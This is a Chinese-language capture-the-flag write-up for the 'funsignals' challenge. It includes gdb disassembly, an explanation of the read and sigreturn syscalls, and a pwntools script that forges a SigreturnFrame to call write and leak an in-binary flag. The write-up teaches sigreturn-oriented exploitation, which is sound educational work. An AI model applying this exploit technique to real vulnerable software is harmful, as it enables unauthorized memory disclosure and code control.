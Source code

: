 ```python
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments

```
disass
```
gdb-peda$ disass _start
Dump of assembler code for function _start:
   0x0000000010000000 <+0>:	xor    eax,eax
   0x0000000010000002 <+2>:	xor    edi,edi
   0x0000000010000004 <+4>:	xor    edx,edx
   0x0000000010000006 <+6>:	mov    dh,0x4
   0x0000000010000008 <+8>:	mov    rsi,rsp
   0x000000001000000b <+11>:	syscall 
   0x000000001000000d <+13>:	xor    edi,edi
   0x000000001000000f <+15>:	push   0xf
   0x0000000010000011 <+17>:	pop    rax
   0x0000000010000012 <+18>:	syscall 
   0x0000000010000014 <+20>:	int3   
End of assembler dump.
gdb-peda$ disass syscall
Dump of assembler code for function syscall:
   0x0000000010000015 <+0>:	syscall 
   0x0000000010000017 <+2>:	xor    rdi,rdi
   0x000000001000001a <+5>:	mov    rax,0x3c
   0x0000000010000021 <+12>:	syscall 
End of assembler dump.
gdb-peda$ p &flag
$2 = (<text variable, no debug info> *) 0x10000023 <flag>
gdb-peda$ x/s 0x10000023
0x10000023 <flag>:	"fake_flag_here_as_original_is_at_server"
gdb-peda$ x/s flag
0x10000023 <flag>:	"fake_flag_here_as_original_is_at_server"
```
而且 flag 就在二进制文件里，只不过是在服务器上的那个里面，过程是完全一样的。

首先可以看到 _start 函数里有两个 syscall。第一个是 read(0, $rsp, 0x400)（调用号0x0），它从标准输入读取 0x400 个字节到 rsp 指向的地址处，也就是栈上。第二个是 sigreturn()（调用号0xf），它将从栈上读取 sigreturn frame。所以我们就可以伪造一个 frame。

那么怎样读取 flag 呢，需要一个 write(1, &flag, 50)，调用号为 0x1，而函数 syscall 正好为我们提供了 syscall 指令，构造 payload 如下：


exp代码
```python
from pwn import *

elf = ELF('./funsignals_player_bin')
p = process('./funsignals_player_bin')

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write         #系统调用号,设置rax使syscall调用write函数
frame.rdi = constants.STDOUT_FILENO     #设置输出到哪里,STDOUT_FILENO表示向屏幕输出
frame.rsi = elf.symbols['flag']         #设置rsi,表示从哪里开始读取
frame.rdx = 50                          #读取的长度
frame.rip = elf.symbols['syscall']      #指向syscall; ret;

p.send(str(frame))
p.interactive()
```
运行结果
```python
```